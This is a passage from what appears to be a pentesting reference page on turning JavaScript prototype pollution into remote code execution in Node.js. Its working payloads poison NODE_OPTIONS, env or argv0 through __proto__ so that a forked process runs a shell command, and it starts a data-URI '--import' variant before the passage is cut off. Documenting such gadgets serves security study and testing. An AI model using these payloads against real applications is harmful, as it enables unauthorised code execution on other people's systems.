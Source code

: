 ```

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec2
```
```
## PP2RCE via env vars + cmdline

A similar payload to the previous one with some changes was proposed in [[https://blog.sonarsource.com/blitzjs-prototype-pollution/|**this writeup**]]**.** The main differences are:

- Instead of storing the nodejs **payload** inside the file `/proc/self/environ`, it stores it i**nside argv0** of **`/proc/self/cmdline`**.
- Then, instead of requiring via **`NODE_OPTIONS`** the file `/proc/self/environ`, it **requires `/proc/self/cmdline`**.

```javascript
const { execSync, fork } = require("child_process")

// Manual Pollution
b = {}
b.__proto__.argv0 =
  "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//"
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline"

// Trigger gadget
var proc = fork("./a_file.js")
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}'
)

clone(USERINPUT)

var proc = fork("a_file.js")
// This should create the file /tmp/pp2rec
```
```
## Filesystem-less PP2RCE via `--import` (Node ≥ 19)

> [!NOTE]
> Since **Node.js 19** the CLI flag `--import` can be passed through `NODE_OPTIONS` in the same way `--require` can.  In contrast to `--require`, `--import` understands **data-URIs** so the attacker does **not need write access to the file-system** at all.  This makes the gadget far more reliable in locked-down or read-only environments.
>
> This technique was first publicly documented by PortSwigger research in May 2023 and has since been reproduced in several CTF challenges.

The attack is conceptually identical to the `--require /proc/self/*` tricks shown above, but instead of pointing to a file we embed the payload directly in a base64-encoded `data:` URL:

```javascript
const { fork } = require("child_process")
```